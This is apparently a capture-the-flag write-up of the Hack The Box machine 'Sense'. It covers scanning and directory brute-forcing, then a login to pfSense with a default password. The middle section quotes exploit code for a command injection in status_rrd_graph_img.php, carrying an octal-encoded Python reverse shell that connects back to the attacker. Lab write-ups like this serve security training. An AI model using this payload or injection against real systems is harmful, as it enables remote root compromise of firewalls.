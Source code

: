 ```yaml
---
title:     "Hack The Box - Sense"
tags: [freebsd,easy,pfsense]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled.png)

We are going to pwn Sense from Hack The Box.                                                             

Link: [https://www.hackthebox.eu/home/machines/profile/111](https://www.hackthebox.eu/home/machines/profile/111)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (86%), FreeBSD 8.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/o:freebsd:freebsd:8.1
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (86%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTPS Enumeration

When I tried to visit Port 80 first it redirects to `https`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%201.png)

Looks like its a `pfSense` login page.

> What is pfsense? **pfSense is an open source firewall/router computer software distribution based on FreeBSD. It is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.**

I searched for default credentials and got this.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%202.png)

When I tried to login, it says Username or Password incorrect. I decided to run Gobuster

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/10 10:36:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Ok we got an username finally and it says password is default one, which is `pfsense`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%203.png)

I tried login with `rohit : pfsense` the default password. And it worked.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%204.png)

Since we got the version of it, I decided to search for exploits and found this.

> [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

## Getting Shell

According to exploit its looking for `/status_rrd_graph_img.php` to command injection. And helps us to get python reverse shell.

```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

so I decided to check whether its there or not? And Yes its there. Downloaded the exploit to my machine.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%205.png)

First I used `--help` parameter to know what going on and set those parameters and I got the shell.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%206.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sense/Untitled%206.png)

We don’t have to escalate privileges since pfSense is running as root and the command injection vulnerability leads to root shell.

We own the box.